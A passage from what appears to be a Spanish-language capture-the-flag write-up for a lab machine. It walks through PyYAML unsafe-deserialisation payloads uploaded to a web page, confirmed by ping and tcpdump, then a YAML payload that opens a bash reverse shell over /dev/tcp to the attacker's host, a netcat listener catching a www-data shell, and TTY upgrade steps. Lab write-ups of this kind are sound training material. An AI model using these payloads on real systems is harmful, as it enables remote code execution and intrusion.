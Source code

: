 Utiliza cualquiera de los siguiente payloads modificados:
```bash
!!python/object/apply:os.system ["ping -c 1 Tu_IP"]
!!python/object/apply:os.popen ["ping -c 1 Tu_IP"]
!!python/object/new:subprocess [["ping","-c","1","Tu_IP"]]
!!python/object/new:subprocess.check_output [["ping","-c","1","Tu_IP"]]
```
Carga el payload en un archivo de prueba y súbelo a la página.

Una vez que lo subas, observa el **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
17:33:03.353089 IP 192.168.100.30 > Tu_IP: ICMP echo request, id 24017, seq 1, length 64
17:33:03.353122 IP Tu_IP > 192.168.100.30: ICMP echo reply, id 24017, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```
Excelente, funciona.

Entonces, podemos mandarnos una **Reverse Shell** que podemos agregar a cualquiera de los payloads.

En mi caso, usé el siguiente:
```bash
yaml: !!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'"]
```
Guárdalo en un archivo.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```
Carga el **archivo YAML**.

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.30] 39916
bash: cannot set terminal process group (472): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Melonjamon:/$ whoami
whoami
www-data
```
Estamos dentro.

Obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Listo, continuemos.